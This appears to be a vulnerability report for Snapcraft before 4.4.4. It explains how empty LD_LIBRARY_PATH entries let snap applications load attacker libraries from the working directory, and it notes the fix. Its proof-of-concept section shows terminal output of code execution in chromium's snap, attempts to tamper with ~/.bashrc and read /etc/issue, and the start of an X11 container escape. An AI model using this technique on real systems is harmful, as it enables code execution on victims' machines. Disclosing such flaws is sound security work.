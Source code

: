 # Bug Description:
Snapcraft before 4.4.4 is vulnerable to library inclusion from the current working directory. This allowed attackers to gain remote code execution in almost **any application** that was installed with snapcraft, when run in an attacker controlled directory. This could be as simple as running an application in a cloned git repository.

The bug is due to incorrect bash script generation when creating confined snap packages. Snapcraft will generate wrapper scripts to run the application, but accidently uses empty variables to define the `LD_LIBRARY_PATH` for the application. Due to a quirk with LD, empty path entries are treated as current working directory. This means that any libraries (for example libc.so.6) in the current working directory will be loaded into the snap application when run. (Additionally LD will search several subdirectories including `tls`).

A malicious library could easily be crafted to run arbitrary remote code when a snap application is run. This code will run inside the snap container so it will initially be somewhat restricted and can only access any files in the users home directory (excluding dotfiles). However due to many apps also including X11 permissions, it is fairly trivial to escape the container using X11 commands. This would give an attacker full access to the system as the current user.

# Fix
Snapcraft [fixed](https://github.com/snapcore/snapcraft/commit/a0ceca9d531a34c979251030ed67b5fa2abfdd9a) the issue in the script generator by including a check for empty string. However for the fix to be applied, application authors must "refresh" their app, regenerating the vulnerable files. This means that **many applications are still vulnerable** (ie chromium and docker) until re-generated correctly.

# POC
Attached is both the POC archive which should still work against chromium. Additionally is a script that generates the malicious `libc.so.6`

```
itszn@ubuntu:~$ tar xfvz snap-escape
itszn@ubuntu:~$ cd snap-escape
itszn@ubuntu:snap-escape$ ls
total 8
-rw-rw-r-- 1 itszn itszn    0 Oct 25 11:04 amazing-movie.mp4
-rw-rw-r-- 1 itszn itszn    0 Oct 25 11:28 cool-page.html
-rw-rw-r-- 1 itszn itszn 2193 Oct 25 11:45 README.txt
drwxrwxr-x 3 itszn itszn 4096 Oct 25 11:28 tls
itszn@ubuntu:snap-escape$ chromium
Got code execution running as itszn inside snap container!

We can read/write any non-hidden (non-dot) file in
+ echo 'Hello from snap code exec' > /home/itszn/pwned
+ cat /home/itszn/pwned
Hello from snap code exec

However we are still restricted by the container

We cannot access dotfiles
+ echo 'echo PWNED' >> /home/itszn/.bashrc
./tls/s: 20: ./tls/s: cannot create /home/itszn/.bashrc: Permission denied

Or other non-home files
+ cat /etc/issue
cat: /etc/issue: Permission denied

Luckily, this snap has the x11 plug
We can use this escape the container!
Starting container escape...

```